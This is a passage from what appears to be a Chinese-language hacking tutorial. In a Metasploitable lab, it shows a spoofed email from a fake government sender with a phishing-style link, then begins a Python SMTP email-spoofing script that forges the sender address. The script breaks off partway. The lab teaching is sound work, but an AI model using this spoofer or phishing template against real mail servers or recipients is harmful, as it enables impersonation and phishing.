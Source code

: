 ```
msfadmin@metasploitable:~$ sudo cat /var/spool/mail/sys
```

你应该会看到来自`head@secret.gov`的消息，消息正文是你输入的内容：

```
...
From: "The Boss lady" <head@secret.gov>
Subject: Hello SYS
Message-Id: <20200718011936.45737CBFC@metasploitable.localdomain>
Date: Sat, 17 Jul 2022 21:19:14 -0400 (EDT)
To: undisclosed-recipients:;

Click This link <a href="url">link text </a>
Your Enemy,
someone
```

恭喜！你已经发送了第一封假邮件。

#### ***编写一个邮件伪造器***

手动执行 SMTP 协议可能会很繁琐，所以让我们编写一个简短的 Python 程序，利用你刚学到的过程发送一封假邮件。在你的 Kali Linux 虚拟机上，创建一个名为*spoofer*的新文件夹。然后在*spoofer*文件夹内创建一个名为*espoofer.py*的 Python 文件，使用你喜欢的 IDE 或文本编辑器打开它，并复制以下代码，它通过 TCP 连接执行 SMTP 协议。

```
import sys, socket

size = 1024

def sendMessage(smtpServer, port, fromAddress,

                toAddress,message):

    IP = smtpServer

    PORT = int(port)

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((IP, PORT))  # Open socket on port

    print(s.recv(size).decode())  # display response

 ➊ s.send(b'HELO '+ fromAddress.split('@')[1].encode() +b'\n')

 ➋ print(s.recv(size).decode())

    # send MAIL FROM:

    s.send(b'MAIL FROM:<'+ fromAddress.encode() + b'>\n')

    print(s.recv(size).decode())

    # send RCPT TO:

    s.send(b'RCPT TO:<'+ toAddress.encode() + b'>\n')

    print(s.recv(size).decode())

    s.send(b"DATA\n")  # send DATA

    print(s.recv(size).decode())

    s.send(message.encode() + b'\n')

```